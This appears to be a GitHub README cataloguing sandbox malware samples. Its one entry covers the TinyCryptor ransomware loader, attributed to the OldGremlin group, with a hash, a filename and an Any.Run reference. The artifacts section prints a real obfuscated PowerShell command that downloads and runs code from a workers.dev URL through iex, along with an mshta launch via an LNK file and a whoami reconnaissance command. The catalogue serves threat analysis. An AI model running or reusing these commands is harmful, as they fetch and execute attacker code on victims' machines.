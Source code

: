 # sandb0xed

Interesting malware samples from popular online sandbox services such as [Any.Run](https://app.any.run/), [tria.ge](https://tria.ge/), etc.

## TinyCryptor

MD5: 306978669EAD832F1355468574DF1680
Filename: Рекомендации_МИР.docx.lnk
Reference: [Any.Run](https://app.any.run/tasks/f63e2c95-c558-4d94-b62e-b93a18eca0aa/)
Threat Actor: [OldGremlin](https://www.group-ib.com/blog/oldgremlin)

> "OldGremlin is the only Russian-speaking ransomware operator that violates the unspoken rule about not working within Russia and post-Soviet countries. They carry out multistage targeted attacks on Russian companies and banks using sophisticated tactics and techniques similar to those employed by APT groups. As with similar groups that target foreign entities, OldGremlin can be classed as part of Big Game Hunting, which brings together ransomware operators targeting large corporate networks." - Oleg Skulkin, Senior Digital Forensics Analyst at Group-IB

### Artifacts

![image](https://user-images.githubusercontent.com/61026070/94177556-71cebb00-feb9-11ea-8fba-38de46fc8922.png)

```powershell
 "C:\Windows\System32\cmd.exe" /v /c set m=m^s^h^ta && set a=Р^екоменд^ации_МИР.do^cx.lnk && if exist !cd!\!a! (!m! !cd!\!a!) else (!m! !temp!\Temp1_Рекомендации.zip\!a!)
```

```powershell
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -nop -c while(!(.("""{0}{1}{2}"""-f ("""{1}{0}""" -f 'st-','Te'),("""{2}{1}{0}""" -f 'ec','onn','C'),("""{1}{0}"""-f'n','tio')) ("""{1}{2}{0}""" -f ("""{0}{1}"""-f("""{1}{0}"""-f'.c','le'),'om'),'g','oog') -q)) {&("""{1}{2}{0}{3}""" -f ("""{0}{1}""" -f("""{0}{1}""" -f 'a','rt-'),'Sl'),'S','t','eep') -s 5} .("""{1}{0}""" -f'ex','i')(.("""{2}{1}{0}""" -f't',("""{1}{0}"""-f 'jec','Ob'),("""{0}{1}""" -f'Ne','w-')) ("""{0}{4}{1}{2}{3}"""-f ("""{1}{0}""" -f 'W',("""{0}{1}"""-f 'Net','.')),'C','li','ent','eb')).("""{3}{4}{1}{2}{0}"""-f'ing',("""{1}{0}"""-f'lo','wn'),("""{1}{0}""" -f 'Str','ad'),'D','o')."""In`Vo`kE"""(("""https://schedule.winupdate.workers.dev/load.php"""))
```

```powershell
"C:\Windows\system32\whoami.exe" /groups /fo csv
```